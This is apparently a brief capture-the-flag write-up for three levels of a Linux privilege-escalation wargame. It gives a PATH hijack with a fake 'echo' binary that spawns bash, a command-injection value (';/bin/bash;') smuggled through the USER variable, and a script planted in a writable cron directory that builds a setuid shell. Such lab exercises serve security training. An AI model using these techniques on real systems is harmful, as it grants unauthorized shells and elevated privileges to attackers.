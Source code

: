 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create `exploit.c` in `/tmp`
* this `exploit.c` just cope the code from level01
* then create a `run.sh` in /home/flag03/writable.d
```
run.sh

cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```